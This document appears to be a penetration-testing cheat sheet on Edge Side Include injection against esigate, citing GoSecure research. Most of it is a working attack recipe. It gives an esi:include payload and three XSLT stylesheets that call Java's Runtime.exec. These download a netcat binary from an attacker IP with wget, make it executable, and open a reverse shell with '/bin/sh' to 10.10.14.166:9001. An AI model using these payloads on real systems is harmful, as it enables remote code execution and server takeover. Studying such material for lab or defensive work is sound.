 Edge Side Inclusion (ESI)

# This is related to the answer in the headers : X-Powered-By : esigate

Papers : https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/

https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/

## How to exploit ?

### RCE with XSLT injection

- Launch a listener on port 80

- In the box where you can send data, send : 
```
<esi:include src="http://10.10.16.131/test.xml" stylesheet="http://10.10.16.131/test.xsl"></esi:include>
```
- Then, search for your data in the search bar of search url and see if you have an answer on your webserver. If so, it's time to create a reverse shell !

- Create 3 blank xml file, and 3 xsl files like these :

- wget : 
```<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.14.166:8000/nc -O vnc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- chmod : 
```<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[chmod 777 vnc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
- shell : 
```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[./vnc -e /bin/sh 10.10.14.166 9001 ]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- Change the part test.xml and test.xsl to wget, chmod and shell and send it : ```<esi:include src="http://10.10.16.131/test.xml" stylesheet="http://10.10.16.131/test.xsl"></esi:include>```
